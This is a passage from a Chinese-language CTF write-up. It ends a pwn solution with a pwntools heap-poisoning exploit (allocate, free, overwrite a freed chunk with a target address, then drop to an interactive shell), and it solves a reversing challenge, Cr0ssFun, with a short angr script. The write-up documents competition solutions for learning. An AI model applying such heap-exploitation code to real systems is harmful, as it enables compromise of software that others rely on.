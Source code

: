 ```python

def Modify(index,content):
	p.recvuntil("choice>\n")
	p.sendline("3")
	p.recvuntil("index>\n")
	p.sendline(str(index))
	p.send(content)

Alloc(0x48)
Free(0)
Modify(0,p64(0x602080))
Alloc(0X48)
Alloc(0X48)
Modify(2,'\x00')

p.interactive()
```

# Reverse

## Cr0ssFun - 42 solves

> Author: 52HeRtz

出这题的前几天，刚好去俄罗斯一个比赛瞧了一眼，发现有个这样的题，差点没把我气死，于是我就差不多的再出了一个类似的题hhhhh。。。

丢进 IDA，可以看见一堆函数

![GnXfyD.png](https://s1.ax1x.com/2020/03/30/GnXfyD.png)

可以看见一个check函数，拼命的调用其它函数

![GnXWQO.png](https://s1.ax1x.com/2020/03/30/GnXWQO.png)

![GnXhOe.png](https://s1.ax1x.com/2020/03/30/GnXhOe.png)

接下来就是不断地套娃，其实就把所有的字符都弄出来就可以了，手动或者写脚本都可以。

当然出题人作为一个很懒的web狗，当然是喜欢用工具，可以用 angr 求解。

看起来输入正确的 flag 后会打印 `Your flag is correct, go and submit it!`

用 angr 求解什么样的输入可以使得程序输出 `Your flag is correct, go and submit it!`

```python
import angr
proj = angr.Project("Cr0ssfun")
simgr = proj.factory.simgr()
simgr.explore(find=lambda s: b"Your flag is correct, go and submit it!" in s.posix.dumps(1))
print(simgr.found[0].posix.dumps(0))
```

等几秒就出来了
